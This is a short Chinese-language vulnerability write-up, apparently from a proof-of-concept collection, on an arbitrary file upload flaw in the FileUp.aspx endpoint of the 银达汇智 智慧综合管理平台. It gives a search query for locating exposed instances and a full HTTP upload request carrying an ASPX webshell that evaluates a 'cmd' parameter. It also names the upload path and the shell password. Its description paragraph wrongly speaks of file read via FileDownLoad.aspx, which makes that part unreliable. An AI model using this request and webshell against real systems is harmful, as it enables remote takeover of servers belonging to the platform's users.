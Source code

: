 # 银达汇智 智慧综合管理平台 FileUp.aspx 任意文件上传漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

```
银达汇智 智慧综合管理平台
```

## 网络测绘

```
"汇智信息" && title=="智慧综合管理平台登入"
```

## 漏洞复现

登陆页面

![image-20220525150952244](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251514171.png)

文件上传请求包

```
POST /Module/FileUpPage/FileUp.aspx?orgid=1&type=NNewsContent HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 337
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=62907949903a4c499178971c9dab4ad9

--62907949903a4c499178971c9dab4ad9
Content-Disposition: form-data; name="Filedata"; filename="abc.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript"%><%Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("abc", "MD5").ToLower());eval(Request.Item["cmd"],"unsafe");%>
--62907949903a4c499178971c9dab4ad9--
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251514756.png)

响应包会返回文件名，上传的目录为

```
/imgnews/imgcontent/1/xxxxxxxxxx.aspx
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251514939.png)

出现如图成功上传木马，密码为 `cmd`